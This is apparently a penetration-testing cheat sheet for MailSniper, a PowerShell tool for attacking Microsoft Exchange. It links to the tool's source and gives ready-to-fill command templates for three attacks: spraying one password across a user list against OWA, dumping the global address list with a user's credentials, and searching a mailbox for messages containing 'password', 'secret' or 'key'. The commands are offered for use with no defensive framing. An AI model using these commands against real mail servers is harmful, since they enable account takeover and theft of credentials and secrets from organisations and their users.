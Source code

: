 ### source
https://raw.githubusercontent.com/dafthack/MailSniper/master/MailSniper.ps1  

### passwordspray
```
Invoke-PasswordSprayOWA -ExchHostname <rhost> -UserList <userFile> -Password <password>
```

### extract address book
```
Get-GlobalAddressList -ExchHostname <rhost> -UserName <domain>\<user> -Password <password> -OutFile <outFile>
```

### search for passwords inside last 100 e-mails for the current user session
```
Invoke-SelfSearch -Mailbox <user>@<domain> -Terms "*password*","*secret*","*key*"
```

